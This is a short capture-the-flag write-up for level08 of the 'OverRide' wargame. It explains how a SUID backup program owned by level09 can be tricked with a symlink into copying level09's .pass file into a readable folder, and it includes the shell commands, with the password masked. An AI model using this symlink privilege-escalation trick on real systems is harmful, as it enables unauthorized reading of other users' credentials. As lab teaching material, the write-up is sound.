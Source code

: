 # Tools
[Dogbolt - Decompiler Explorator](https://dogbolt.org/)
[Cutter - Reverse Engineering Tool](https://cutter.re/)
[GNU DeBugger - GDB](https://fr.wikipedia.org/wiki/GNU_Debugger)

# Exploit 
Level08 is a throwback to the good old days of snow-crash and symlinks. 

# Explanation
The program starts to open the file passed as the first parameter to back up its content. It has the SUID bit on and is owned by level09 so we can use it to capture the level09 `.pass` file. 

If we pass the absolute path or something with `../`, it causes issues.

Thus, we create a symlink `flag` that links to level09's .pass and give it to the program, that writes its content in the `backups` folder.
```
level08@OverRide:~$ ./level08 "/home/users/level09/.pass"
ERROR: Failed to open ./backups//home/users/level09/.pass
level08@OverRide:~$ ln -s /home/users/level09/.pass flag
level08@OverRide:~$ ./level08 "flag"
level08@OverRide:~$ cat backups/flag
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

# Resources
